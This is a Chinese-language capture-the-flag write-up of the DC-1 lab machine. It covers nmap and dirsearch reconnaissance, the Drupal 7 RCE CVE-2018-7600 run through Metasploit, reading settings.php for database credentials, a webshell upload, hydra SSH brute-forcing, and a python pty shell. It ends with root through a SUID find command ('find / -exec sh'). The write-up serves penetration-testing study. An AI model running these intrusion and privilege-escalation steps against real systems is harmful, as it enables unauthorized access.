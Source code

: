 # DC1   
## 简述  
使用目录进行爆破，发现drupal的版本，使用一个rce执行之后拿到数据库的密码，上传webshell ，使用带有suid的命令进行提权  
 
简述 drupal7.x 其中存在exp，提权使用root的带有suid的命令进行提权【服务配置错误】
难点 查询服务 查询漏洞 带s位的命令执行  find命令的执行  
## 探测&&利用漏洞  
1. 首先探测服务  
   使用nmap -sP(使用ping命令进行扫描) -PR (使用arp协议进行扫描) 网段名  
 ![20211016235009](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235009.png)
   之后使用nmap -A -p 1-10000 ipaddr 对ip地址开启的服务进行扫描  
 ![20211016235020](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235020.png)
   发现开启了ssh和web服务进行访问
   
2. 对子目录进行爆破  
python3 dirsearch.py -e php -u  192.168.1.47
访问robots.txt文件得到子目录当中的信息，发现其中的upgradee.txt从而指导了版本号  
![20211016235033](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235033.png)

![20211016235044](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235044.png)
 通过版本号发现一个rce漏洞 CVE2018-7600   
 ![20211016235052](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235052.png)
 配置好参数使用这个漏洞利用   
 配置如下  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201014658.png)  
使用msf得到权限，  
## 提权  
```
python -c 'import pty;pty.spawn("/bin/bash")' 
```
拿到交互式的shell  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201015033.png)

提权第一要素，收集服务器当中的文件数据  
**第一个flag提示我们寻求配置文件**
![20211016235104](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235104.png)
这里自我寻找了很久都没有寻找到，最后寻找到的方法是通过百度才知道。这里寻找的文件在/sites/default/settings.php 是配置数据库的默认文件
**第二个flag提示我们处理现在有的密码和用户名**
![20211016235112](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235112.png)
拿到数据库的配置密码，或者可以直接使用
寻找第三个flag的一直找不到，然后通过搜索到是存储在mysql的node当中的。
在drupal当中的数据会存贮在node当中，就像这个靶机一样  
```
后面我才知道该死的drupal是将数据存在node其中的  
我之前一直以为不是。。。。
而在drupal当中node在数据库的field_data_body表  
```
详细步骤  
![20211016235132](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235132.png)

3. 上传webshell 使用冰蝎连接  
![20211016235150](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235150.png)
   发现其中的数据库修改是存在很大问题的只能是修改一部分的数据    所以这里暂时没有用到
   

 **第三个flag提示我们使用寻找使用exec权限**  
4. 使用hydra进行爆破   
   ![20211016235204](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235204.png)
   hydra -l flag4 -P pass.list ip ssh  
   ![20191120161610.png](https://i.loli.net/2019/11/20/WDjs74NEZ982rKO.png)   
   **第四个flag提示我们使用相同的权限寻求权限**  
  ![20211016235217](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235217.png)
5. 使用ssh连接上之后用suid提取方法进行提权  
   查找带有s位的命令    
   find / -perm -u=s -type f 2>/dev/null  
   ![20211016235230](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235230.png)  
   原理就是执行带s位的命令的时候会有root的权限，使用find命令，touch命令任意创建一个文件进行执行exec命令  
```
find / -type f -name s -exec "whoami" \;   
这个命令的原理  
find命令如果是配置成使用SUID权限运行的时候，则可以通过find命令以root身份去运行  
 提权命令
find / -exec sh \; 使用exec执行sh拿到权限 
```


![20211016235250](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016235250.png)
### 使用到的命令  
**探测主机**  
```
nmap -sP -PR ip段  
```
**探测服务** 
```
nmap -A -p 1-10000 ipaddr  
```
**子目录爆破**  
```
python3 dirsearch.py -e php -u  ipaddr  
```
**python创建交互式shell**  
```
python -c 'import pty;pty.spawn("/bin/bash")'  #创建交互式shell  
python创建 创建交互式shell成功之后 将交互式shell通过shell 反弹给宿主  【主要原因是在会话当中的交互式shell并不如python当中的交互式shell那般】
```
**find提权**  
```
find / -exec sh \; 使用exec执行sh拿到权限 
```
## 总结
前期踩点，爆破目录搜索到版本号  
searchsploit或者msfconsole搜索漏洞利用  
拿到网站最低权限之后翻看配置文件拿到数据库的配置文件  
通过错误的配置suid命令拿到root权限  

## referer
https://drupal.stackexchange.com/questions/6787/where-is-the-content-of-a-nodes-body-stored#comment6998_6788
https://www.anquanke.com/post/id/86979
